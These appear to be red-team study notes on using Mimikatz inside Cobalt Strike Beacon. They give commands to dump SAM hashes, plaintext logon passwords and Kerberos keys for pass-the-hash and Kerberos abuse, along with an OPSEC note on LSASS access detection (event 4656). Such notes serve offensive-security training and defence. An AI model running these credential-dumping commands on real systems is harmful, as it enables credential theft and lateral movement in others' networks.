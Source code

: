 

Cannot run multiple commands like in console:

``PS C:\Tools\mimikatz\x64> .\mimikatz.exe token::elevate lsadump::sam exit``

Instead use :

`!` to elevate privilege
`@` impersonate Beacon's thread token before running the command

`@` option is useful in cases where Mimikatz needs to interact with a remote system, such as with dcsync.

So in the example above, the correct Cobalt Strike syntax would be:

``beacon> mimikatz !lsadump::sam``


## NTLM Hashes

Dump passwords from memory, even plaintext sometimes. Useful for **Pass the Hash**

```
mimikatz !sekurlsa::logonpasswords
```

Cobalt Strike also has a short-hand command for this called `logonpasswords`.  After dumping these credentials, go to _View > Credentials_ to see a copy of them

Dump the Kerberos encryption keys of currently logged on users, it's more common to use Kerberos in modern systems so we can blend in easier.  These keys can be used in a variety of Kerberos abuse scenarios.

```
mimikatz !sekurlsa::ekeys
```

> [!info] 
> There is a [known issue](https://github.com/gentilkiwi/mimikatz/issues/314) where Mimikatz may incorrectly label all of the hashes as `des_cbc_md4`.
> The order is :
> 
> ```
aes256_hmac       4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6
rc4_hmac_nt       59fc0f884922b4ce376051134c71e22c
rc4_hmac_old      59fc0f884922b4ce376051134c71e22c
rc4_md4           59fc0f884922b4ce376051134c71e22c
rc4_hmac_nt_exp   59fc0f884922b4ce376051134c71e22c
rc4_hmac_old_exp  59fc0f884922b4ce376051134c71e22c2c




> [!warning] 
> Requires elevated privileges.

> [!danger] 
> OPSEC: This modules will open a read handle to LSASS which can be logged under event 4656. Use the "Suspicious Handle to LSASS" saved search in Kibana to see them. 

